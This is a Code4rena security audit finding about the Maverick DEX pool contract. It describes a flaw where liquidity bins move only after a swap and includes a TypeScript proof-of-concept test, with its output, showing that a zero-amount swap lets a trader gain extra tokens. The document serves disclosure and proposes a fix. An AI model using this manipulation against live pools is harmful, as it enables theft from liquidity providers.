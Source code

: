 ## Tags

- bug
- 2 (Med Risk)
- downgraded by judge
- satisfactory
- selected for report
- sponsor disputed
- edited-by-warden
- M-03

# [Trader can manipulate price because bin only moved after swap](https://github.com/code-423n4/2022-12-Stealth-Project-findings/issues/35) 

# Lines of code

https://github.com/code-423n4/2022-12-Stealth-Project/blob/fc8589d7d8c1d8488fd97ccc46e1ff11c8426ac2/maverick-v1/contracts/models/Pool.sol#L306


# Vulnerability details

## Impact

In Maverick, liquidity bin is only moved after a swap

https://github.com/code-423n4/2022-12-Stealth-Project/blob/fc8589d7d8c1d8488fd97ccc46e1ff11c8426ac2/maverick-v1/contracts/models/Pool.sol#L305-L306

```solidity
        emit Swap(msg.sender, recipient, tokenAIn, exactOutput, amountIn, amountOut, currentState.activeTick);
        _moveBins(currentState.activeTick, startingTick, lastTwa);
```

If the pool do not have a lot of activity (which is very common for newer DEX / tail asset), the bin will not be moved to the expected position. Trader will have a free option to manipulate price in their favor.

## Proof of Concept

Adding this test case to ./maverick-v1/test/models/Pool.ts

```typescript
    describe.only("when the twap moves and there are bins that can be moved", () => {
      beforeEach(async () => {
        await testPool.addLiquidity(1, [
          {
            kind: 1,
            isDelta: true,
            pos: 0,
            deltaA: floatToFixed(3),
            deltaB: floatToFixed(3),
          },
          {
            kind: 1,
            isDelta: true,
            pos: 2,
            deltaA: floatToFixed(3),
            deltaB: floatToFixed(3),
          },
          {
            kind: 1,
            isDelta: true,
            pos: 10,
            deltaA: floatToFixed(0),
            deltaB: floatToFixed(10),
          },
        ]);
      });
    
    it("+10, 0, -10", async () => {
      await testPool.swap(
        await owner.getAddress(),
        floatToFixed(10),
        true,
        false
      );
      await ethers.provider.send("evm_increaseTime", [3600]);
      await ethers.provider.send("evm_mine", []);
      await testPool.swap(
        await owner.getAddress(),
        floatToFixed(0),
        false,
        true
      );
      await testPool.swap(
        await owner.getAddress(),
        floatToFixed(10),
        false,
        true
      );
      const afterTokenABalance = fixedToFloat(
        await tokenA.balanceOf(await owner.getAddress())
      );
      const afterTokenBBalance = fixedToFloat(
        await tokenB.balanceOf(await owner.getAddress())
      );
      console.log(afterTokenABalance, afterTokenBBalance);
    });
    it("+10, -10", async () => {
      await testPool.swap(
        await owner.getAddress(),
        floatToFixed(10),
        true,
        false
      );
      await ethers.provider.send("evm_increaseTime", [3600]);
      await ethers.provider.send("evm_mine", []);
      await testPool.swap(
        await owner.getAddress(),
        floatToFixed(10),
        false,
        true
      );
      const afterTokenABalance = fixedToFloat(
        await tokenA.balanceOf(await owner.getAddress())
      );
      const afterTokenBBalance = fixedToFloat(
        await tokenB.balanceOf(await owner.getAddress())
      );
      console.log(afterTokenABalance, afterTokenBBalance);
    });
  });
```

```
  Pool
    #swap
      when the twap moves and there are bins that can be moved
99999999997 99999999987.17587
        ✓ +10, 0, -10
99999999997 99999999983.95761
        ✓ +10, -10
```

In the 1st test, the trader buy 10 token, wait an hour, sell 0 token (to update bin), sell 10 token.
In the 2nd test, the trader buy 10 token, wait an hour, sell 10 token

As shown, if the trader execute a 0 token trade in between, he will receive much more token.

On the other hand, if the trader is trying to buy more token, he can get a better price if the bin is not updated.

## Recommended Mitigation Steps

Move the bin at the beginning of a swap after updating twap
